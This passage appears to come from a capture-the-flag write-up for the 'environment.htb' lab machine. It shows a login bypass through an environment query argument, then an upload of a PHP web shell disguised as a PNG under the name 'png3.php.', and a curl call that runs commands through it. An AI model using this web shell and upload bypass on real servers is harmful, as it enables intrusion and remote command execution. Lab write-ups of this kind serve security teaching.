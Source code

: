 ```bash
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
...
email=test%40test.com&password=test&remember=nonboolean
```

Now we are logged in as user `hish`. We get redirected to `/management/dashboard`.

We can change our profile picture, maybe we can upload php code and execute it later.

```
POST /upload HTTP/1.1
Host: environment.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://environment.htb/management/profile
Content-Type: multipart/form-data; boundary=---------------------------26383360799661928062804695699
Origin: http://environment.htb
Content-Length: 224966
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6Ik5xU2NlYUxmQjBDSlA4WDBjOXpqTkE9PSIsInZhbHVlIjoiLy9lREh5RmdYTDVHaUE2QSt2S2tqdGxucW1MbFJod0thMWloakkzWHlOM0p0UG9ZdUJ4WUNLN1NaVDRHZTNuUlRWRzdMZGFlTkRCLzMzSWd3azhCNElQQ0tTNGN6eitBckpYK20yNFBrbWxoMExhYVplaFZiSUFVem9iY2s5VWgiLCJtYWMiOiI4MjAxYzQ3ZDAxNmEzYjIwNjc1MTkxNjA0MzVmOTY2ZmUwNGU4YjdhZDYzOGNkOGMyOGFkNGVjZjI0ZWVkNTQ5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImMycUZEUFA1NGJNSnJuSkJBUnJlZlE9PSIsInZhbHVlIjoiRkVKQ0J2YTI1bVRRdHo2Zlp2aW9iS2xIUHkyZ2dBN0taMkkwRjZxalRTd0VNQXdVeXZTWDA4dGNtanZpV1RhM3RLWnQwS09wTVB1N3QraE93cW1TRVkzcFZ6NFladEw2MTM4L3dpTk03WVhQZmRBdDJVbGZMSzVraVRESjcrQWQiLCJtYWMiOiIwZmFmMzgxYWE1ZDFiMjJmMjBjZWZiNzAxMzBiMzM0ZDg2MTUzYmIzMWFhMGFmYzQ0ZWViMjNmNTFlNTAxYTc0IiwidGFnIjoiIn0%3D

-----------------------------26383360799661928062804695699
Content-Disposition: form-data; name="_token"

H47WDGCWzq0vOaVzUbuB04tNqNDfl4TF2ZGhXgA5
-----------------------------26383360799661928062804695699
Content-Disposition: form-data; name="upload"; filename="png3.php."
Content-Type: image/png

PNG
...image data...

<?php system($_GET['cmd']);?>

...image data...
-----------------------------26383360799661928062804695699--
```

Now we can access the uploaded file at `http://environment.htb/storage/png3.php` and execute commands using the `cmd` parameter:

```bash
curl "http://environment.htb/storage/files/png3.php?cmd=whoami"
```
```

...image data...
www-data
...image data...

```
